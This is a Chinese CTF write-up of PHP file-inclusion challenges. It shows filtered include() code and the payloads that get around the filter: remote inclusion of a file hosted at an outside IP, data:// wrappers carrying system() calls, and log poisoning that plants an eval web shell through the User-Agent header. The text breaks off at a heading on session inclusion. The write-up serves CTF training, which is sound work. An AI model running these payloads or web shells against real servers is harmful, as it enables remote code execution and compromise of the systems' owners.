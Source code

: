 把 php 过滤成了 ???

```
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

当 allow_url_fopen=On allow_url_include=ON 两个条件同时为 On 允许远程包含文件

```
?file=http://43.142.255.132/1.txt        1.txt:<?php system('tac flag.php');?>  //远程包含
```

```
?file=data://text/plain,<?=system('tac flag.*');?>
data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZmxhZy5waHAnKTs/Pg==
```

## web80、81

日志包含

```
<?php

if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

在UA头里写下后门

```
<?php eval($_POST[x]); ?>
```

再访问此服务器的日志路径

```
?file=/var/log/nginx/access.log   
x=system('tac f*');  // POST 提交
```

## web82~86

session 包含
